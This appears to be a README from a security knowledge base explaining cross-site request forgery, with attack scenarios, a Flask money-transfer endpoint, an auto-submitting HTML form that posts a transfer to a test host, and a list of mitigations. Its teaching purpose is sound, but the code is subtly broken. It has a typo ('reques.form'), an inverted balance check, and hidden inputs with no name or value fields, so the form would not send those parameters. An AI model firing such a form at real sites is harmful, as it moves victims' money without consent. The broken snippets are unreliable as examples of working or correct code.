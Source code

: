 <p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/cross-site-request-forgery/main/cross-site-request-forgery.png"></p>

A threat actor may trick an authenticated or trusted victim into transmitting unauthorized actions on their behalf.

## Example #1
1. Threat actor crafts an exploit URL for a fund transfer from a vulnerable website
2. Bob logs in to the vulnerable website (Bob is authenticated - session cookie is saved)
3. Threat actor tricks Bob into clicking on the exploit URL
4. Bob clicks on the exploit URL
5. Bob's browser loads the session cookie and performs a fund transfer

## Example #2
1. Threat actor crafts an exploit for a fund transfer from a vulnerable website
2. Threat actor uploads the exploit to a malicious website
3. Bob logs in to the vulnerable website (Bob is authenticated - session cookie is saved)
4. Threat actor tricks Bob into clicking on the malicious website
5. Bob clicks on the malicious website
6. Bob's browser loads the session cookie and performs a fund transfer

## Code
#### Target Logic
```py
...
@app.route("/send_money", methods=["POST"])
@login_required
def send_money():
   ...
   amount = int(request.form.get("amount"))
   to_user = get_user(int(reques.form.get("to_user")))
   if current_user:
      if current_user['balance'] <= amount:
         current_user['balance'] -= amount
         to_user['balance'] += amount
         return make_response({"transfer":"success"}, 200)
   return make_response({"transfer":"failed"}, 200)
...
```

#### Victim Executes
```html
<html>
  <body>
    <form action="https://test.local/send_money" method="POST">
      <input type="hidden" amount="1000" to_user="ABC-9999"/>
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Impact
Vary

## Risk
- Read & modify data
- Execute commands

## Redemption
- Header verification
- Challenge-response
- Anti-csrf tokens
- Same-site cookies

## Names
 - XSRF
 - Sea Surf
 - Session Riding
 - Cross-Site reference forgery
 - Hostile linking

## ID
776dd60c-c1de-46a3-a104-25cd836e24b6

## References
- [wiki](https://en.wikipedia.org/wiki/cross-site_request_forgery)

